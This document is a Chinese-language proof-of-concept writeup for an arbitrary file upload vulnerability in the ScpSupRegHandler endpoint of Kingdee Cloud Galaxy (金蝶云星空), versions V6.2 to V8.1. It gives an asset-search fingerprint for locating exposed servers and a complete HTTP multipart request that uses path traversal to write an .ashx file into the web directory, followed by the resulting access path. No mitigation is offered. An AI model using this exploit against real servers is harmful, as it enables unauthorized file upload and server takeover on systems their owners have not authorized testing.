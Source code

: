 # 金蝶OA云星空 ScpSupRegHandler 任意文件上传漏洞

## 金蝶OA云星空 ScpSupRegHandler 任意文件上传漏洞

### 漏洞描述：
金蝶OA云星空 ScpSupRegHandler接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

### 漏洞影响：

金蝶云星空企业版私有云、企业版私有云（订阅）、标准版私有云（订阅）三个产品V6.2(含17年12月补丁) 至 V8.1(含23年9月补丁)

### 网络测绘：
```
app="金蝶云星空-管理中心"
```

### 漏洞复现：
登陆页面
POC:
```
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061

Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

11
--2ac719f8e29343df94aa4ab49e456061-
```

![image](https://github.com/wy876/POC/assets/139549762/0175cf8c-a854-4b15-800c-7a07e3d0306c)

![image](https://github.com/wy876/POC/assets/139549762/7e731399-8257-448b-9ab4-2260d9c4dc43)

### 文件上传路径
```
访问路径：/K3Cloud/uploadfiles/Test.ashx
```

